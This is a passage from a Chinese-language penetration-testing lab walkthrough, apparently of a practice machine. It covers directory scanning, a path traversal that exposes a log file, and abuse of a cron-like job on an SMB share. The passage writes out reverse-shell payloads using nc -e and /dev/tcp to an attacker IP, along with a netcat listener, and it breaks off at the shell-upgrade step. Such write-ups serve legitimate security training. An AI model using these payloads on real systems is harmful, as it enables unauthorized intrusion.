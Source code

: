 ###### 信息收集-目录扫描初步

如果扫描发现301适当考虑 -r 2 进行递归

```
dirsearch -u http://192.168.242.11 -x 302,403
```

因为扫出了目录，深层次的扫描待选
1.  `信息收集-目录扫描(后缀)` 1.  `信息收集-目录扫描(深度/大字典)` 1.  `信息收集-目录扫描(深度/大字典后缀)` 
##### 信息收集-端点查看

`/log`端点查看<br/> 发现该端点存在路径遍历

<br/> 访问了其中的内容，发现只有`management.log`可以查看

<br/> 下载之后进行查看，发现为系统内运行日志

###### 文件的信息收集

收集到了账户信息 `ganimedes`<br/> 在查看的过程中发现每分钟会执行重复的命令，在充满的命令中发现一些有趣的内容<br/> 确认了会周期性的执行给`777`的权限到对应的文件

<br/> 并且会执行

### 漏洞利用-getwebshell

##### SMB+计划执行突破

回到之前我们发现的SMB的文件夹发现是`ITDEPT`<br/> 和我们发现周期性日志中给`777`权的文件夹相同<br/> 推测可以将文件上传到`SMB`，等待执行获取反弹`shell`

###### 构造反弹shell的payload

确定我们需要上传的文件名为`web-control`，构造内容​​​​​​​

```
echo 'nc -e /bin/bash 192.168.45.163 4444' &gt; web-control

echo 'bash -i &gt;&amp; /dev/tcp/192.168.45.163/4444 0&gt;&amp;1' &gt; product-control
```

将文件上传到SMB中

攻击机开启监听

```
sudo nc -lvvp 4444
```

等待反弹shell的监听

成功反弹`shell`

### 内网遨游-getshell

#### 交互shell

##### 交互shell-python

由于获取的shell交互不友好，利用python获得新的交互shell​​​​​​​
